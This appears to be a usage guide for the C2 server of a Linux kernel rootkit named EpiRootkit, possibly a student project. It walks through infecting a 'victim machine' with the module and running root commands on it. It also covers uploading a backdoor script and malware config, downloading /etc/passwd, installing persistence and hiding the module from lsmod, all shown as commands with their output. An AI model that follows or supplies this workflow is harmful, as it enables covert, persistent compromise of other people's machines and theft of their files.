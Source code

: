 ```yaml
---
title: "Usage Guide"
description: "Comprehensive usage scenarios and workflows"
icon: "play"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 34
---
```


# Usage Guide

Complete workflows and usage scenarios for the EpiRootkit C2 server.

## Getting Started

### 1. Start the C2 Server
```bash
cd attacking_program
pnpm start
```

### 2. Wait for Rootkit Connection
```bash
# On victim machine
sudo insmod epirootkit.ko

# C2 server will show:
┌─ Client-1
  ✓ [2025-05-25 16:13:29] Connected
└─
```

### 3. Authenticate
```bash
c2-server$ auth Client-1 <password> (default: password)
┌─ Client-1
  ✓ [2025-05-25 16:13:30] Authenticated
└─
```

#### Brute Force Protection

Rate limit to 5 attempts per 60 seconds.

## Basic Workflows

### Client Management Workflow

#### List and Monitor Clients
```bash
# List all connected clients
c2-server$ ls
┌─ Connected Clients
  • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
  • Client-2 - UNAUTHENTICATED - Last seen: 6:10:15 PM
└─

# Check specific client status
c2-server$ status Client-1
┌─ Client-1
  • [2025-05-25 16:13:30] Command result:
  • EpiRootkit Status:
  • Version: 1.0.0
  • Authentication: YES
  • Connection: CONNECTED
  • Module Hidden: YES
  • Encryption: DISABLED
  • Persistence: ENABLED
└─

# Monitor connection health
c2-server$ keepalive Client-1
┌─ Client-1
  • [2025-05-25 16:13:31] Command result:
  • Keepalive Status:
  • Last ping sent: 2025-05-25 16:14:00
  • Connection stable: YES
└─
```

### Command Execution Workflow

#### Basic System Commands
```bash
# Check user privileges
c2-server$ exec Client-1 whoami
┌─ Client-1
  • [2025-05-25 16:13:32] Command result:
  • root
└─

# System information
c2-server$ exec Client-1 uname -a
┌─ Client-1
  • [2025-05-25 16:13:33] Command result:
  • Linux victim 5.4.0-74-generic #83-Ubuntu SMP Wed Apr 29 23:25:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
└─

```


### File Transfer Workflow

#### Upload Files to Victim
```bash
# Upload a script
c2-server$ upload Client-1 ./scripts/backdoor.sh /tmp/backdoor.sh
┌─ File Upload
  • Uploading ./scripts/backdoor.sh → /tmp/backdoor.sh
  ✓ Upload initiated
└─

# Upload configuration
c2-server$ upload Client-1 ./configs/malware.conf /etc/malware.conf
┌─ File Upload
  • Uploading ./configs/malware.conf → /etc/malware.conf
  ✓ Upload initiated
└─

# Verify upload
c2-server$ exec Client-1 ls -la /tmp/backdoor.sh
c2-server$ exec Client-1 chmod +x /tmp/backdoor.sh
```

#### Download Files from Victim
```bash
# Download sensitive files
c2-server$ download Client-1 /etc/passwd ./victim_passwd
┌─ File Download
  • Downloading /etc/passwd → ./victim_passwd
  ✓ Download request sent
└─
```

## Advanced Workflows

### Persistence Management

#### Install Persistence
```bash
# Interactive persistence menu
c2-server$ persist Client-1
┌─ Persistence Management - Client-1
  • Install All Methods
  • Remove All Methods
  • Install Specific Method
  • Show Status
  • Exit

? Select persistence action: Install All Methods
┌─ Installing Persistence
  • Installing all persistence mechanisms on Client-1...
  ✓ all persistence mechanisms installation command sent
└─

# Install specific method
c2-server$ persist Client-1 install modules
┌─ Installing Persistence
  • Installing modules-load.d persistence on Client-1...
  ✓ modules-load.d persistence installation command sent
└─
```


### Stealth Configuration

#### Interactive Configuration
```bash
c2-server$ config Client-1
┌─ Configuration - Client-1
  • Fetching current status...

  Current Configuration:
  [X] Module Hiding (Click to disable)
  [ ] Persistence (Click to enable)
  Refresh Status
  Exit

? Select option: [X] Module Hiding (Click to disable)
┌─ Configuration - Client-1
  • Applying configuration change...
  ✓ Configuration updated
└─
```

#### Manual Stealth Commands
```bash
# Hide module from lsmod
c2-server$ exec Client-1 lsmod | grep epirootkit
# (should show module)

# Enable hiding
c2-server$ status Client-1
# Check if "Module Hidden: YES"

# Verify hiding
c2-server$ exec Client-1 lsmod | grep epirootkit
# (should show no output if hidden)
```

